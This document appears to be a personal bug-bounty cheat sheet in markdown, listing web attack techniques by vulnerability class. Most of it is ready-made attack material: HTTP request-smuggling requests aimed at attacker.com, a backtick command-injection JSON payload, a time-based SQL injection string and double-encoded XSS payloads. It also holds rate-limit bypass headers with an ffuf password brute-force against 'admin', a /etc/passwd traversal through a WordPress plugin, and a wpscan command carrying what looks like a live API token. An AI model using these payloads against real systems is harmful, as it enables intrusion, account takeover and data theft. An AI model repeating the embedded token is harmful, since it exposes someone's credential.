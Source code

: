 <details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- change HTTP method
	GET /users/delete/victim_id  ->403
	POST /users/delete/victim_id ->200

    19- 


 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Broken Access Control</summary>

	1- Test some Graphql operations with different user roles and see what this operation do
 	2- Check the role of every user and try upgrade your role by urself
  	3- try any unauth behavior like :
   		- member delete admin
     		- member send invites using the invite request
       		- member outside the comapny try any action 
	------------------------------------------------
 	- Wildcard -> GET /users/id -> GET /users/*
	------------------------------------------------
	- Content-Type: application/xml 
	- Content-Type: application/json
	------------------------------------------------
 	- 




 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	Generate POC using LazyCSRF in BurpSuite
	=================================================
	FIRST SCENARIO: 
  	1- Login as Attacker and intercept any function like change email, pass, logout...etc
   	2- Genereate CSRF poc with that reqeust
    	3- login as Victim in another browser
     	4- open the CSRF poc in victim browser if did the function then it's a bug
  	
   	=================================================
	SECOND SCENARIO: The Token is tied to non-session cookie
 		if the token tied to an attribute in the request 
 	1- intercept the request of user1 change email,username..etc
  	2- Genrate POC 
   	3- get the CSRF key and attribute value of user2
    	4- 

    	=================================================
   	- Remove the token and leave the parameter empty
  	- Try use another user CSRF token
   	- Change the request method to get and remove the token
    	- Add Ayhaga to the real CSRF token 
     	- Dynamic chars in CSRF token manipulate
	- try delete referrer
 	- Referrer: https://target.com/https://evil.com
  	

 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CORS</summary>

	- Try manipulate the origin header -> Origin:attacker.com or Origin:null or Origin:attacker.target.com or Origin:target.attacker.com
 		- If origin is reflected in response means the target is vuln to CORS

	- 
  
</details>


-----------------------------------------------------------------------------

<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Open Redirect</summary>

	- Look for: 
 		redirect=, redir=, next=, url=, u=,
   		dest=, destination=, forward=, return=, 
   		RelayState=, goto=, callback=, continue=

	- Dorks: 
 		site:example.com inurl:redirect=
		site:example.com inurl:url=
		site:example.com inurl:next=
		site:example.com inurl:%3Dhttp
		site:example.com inurl:%3D%2F
		inurl:"redirect=" OR inurl:"url=" OR inurl:"to=" OR inurl:"out="
		site:target.com inurl:"redirect=" OR inurl:"url=" OR inurl:"next=" OR inurl:"to="
		site:target.com filetype:js intext:"redirect" OR intext:"window.location"
		inurl:"redirect.php?url=" OR inurl:"out.php?to=" OR inurl:"go.php?url="
		site:target.com inurl:"search?q=" "redirect"
		site:target.com ext:conf OR ext:ini OR ext:log "redirect"
		site:target.com inurl:"shorturl=" OR inurl:"go=" OR inurl:"r="
		site:target.com inurl:"api" "redirect_uri="
		site:target.com intext:"has been moved" OR intext:"redirecting to"
		site:github.com "redirect_uri=" "target.com"
		https://target.com/redirect.php?url=https://evil.com


	


     
  
</details>


-----------------------------------------------------------------------------

<details>
	<summary>HTTP Request Smuggling</summary>

	https://deepstrike.io/blog/what-is-http-request-smuggling

    Attack Types: 
    -------------
    
	1- CL.TE: The attacker adds both CL-[Content-Length] & TE-[Transfer-Encoding]
 	        --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 6
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0\r\n
	    	|	\r\n
	      	|	G
		--------------------------------
	- Front-end deal with CL &&& Back-end deal with TE
	RESPONSE : then the victim do a normal request but the last content appears in this request
 		--------------------------------
	   	|	GPOST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------

	------------------------------------------------------------------------------------------------------------------
	2- TE.CL :

		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 3
	       	|	Transfer-Encoding: chunked
		|	
	  	|	8
	    	|	SMUGGLED
	      	|	0
		--------------------------------
 
 	- Fron-end deal with TE && Back-end deal with CL
  	RESPONSE: 
   		--------------------------------
	   	|	SMUGGLED
     		|	0
     		|	POST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------
	------------------------------------------------------------------------------------------------------------------

    Exploits: 
    ---------	
     1- Open Redirect:
       		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: victim.com
	     	|	Content-Length: 117
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0 
    		|	
	    	|	GET / HTTP/1.1
      		|	Host: attacker.com
	 	|	Content-Type: application/x-www-form-urlencoded
   		|	Content-Length: 10
      		|
	      	|	x=
		|
		--------------------------------

 	---------------------------------------------------------------------------------



 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- 

     
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>GraphQL API</summary>

	graphw00f Tool 
  	InQL Tool in BurpSuite
 	Clairvoyance Tool to brute-force GraphQL
 
 
 	/graphql
	/graphiql
	/graphql.php
	/graphql/console
	/api
	/api/graphql
	/graphql/api
	/graphql/graphql
	/v1/graphql
	/v2/graphql
	/graphql/v1
	/graphql/v2
	/gql
	/graphql-playground
	/playground
	/altair
	/query
	/graphql/query
	/graphql-explorer
	/api/v1/graphql
	/api/v2/graphql
	/public/graphql
	/private/graphql
	/internal/graphql 




 

</details>

-----------------------------------------------------------------------------

<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

	username:’ — ‘/” — “
	password:’ — ‘/” — “
</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 

	-----------------------------------------------------------------------------------------------
	
	echo "domain.com" | gau | kxss | grep ">"
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	-----------------------------------------------------------------------------------------------
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss

	-----------------------------------------------------------------------------------------------

	Double Decode :
 		%2527%2520onmouseover%253D%2527alert%25281%2529%2527%2520
   		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520autofocus%253D%2527
     		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520
       		%2527%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E

	-----------------------------------------------------------------------------------------------
  	- Click "Live chat" and send a chat message. 
	Itercept the request 
	edit message to <img src=1 onerror='alert(1)'>
	   		
    	-----------------------------------------------------------------------------------------------



</details>



------------------------------------------------------------------------------------------------------

<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------



<details>
	<summary>PHP</summary>
</details>



-----------------------------------------------------------------------------

<details>
	<summary>Subdomain Takeover</summary>

	- subjack -w <Subdomain List> -o results.txt -ssl -c fingerprints.json
 	- subzy 

   	
 
</details>

-----------------------------------------------------------------------------

